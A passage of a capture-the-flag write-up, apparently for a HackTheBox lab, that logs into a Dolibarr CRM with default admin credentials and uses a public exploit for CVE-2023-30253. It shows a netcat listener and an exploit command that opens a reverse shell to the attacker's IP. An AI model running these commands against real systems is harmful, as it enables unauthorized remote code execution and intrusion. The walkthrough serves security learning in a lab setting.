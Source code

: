 ![crm.board.htb](images/boardlight-crm.board.htb.png)

## crm.board.htb

We look up online and find the default credentials for `Dolibarr` (`admin\admin`).\
![crm.board.htb access using default credentials](images/boardlight-crm.board.htb-default-creds.png)

We find CVE-2023-30253
> Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.

We will be using [nikn0laty's exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to achieve reverse shell.

We open a netcat server:
```bash
$ nc -lvp 4444
```
And run the exploit:
```
$ python3 exploit.py http://crm.board.htb admin admin 10.10.14.48 4444
```
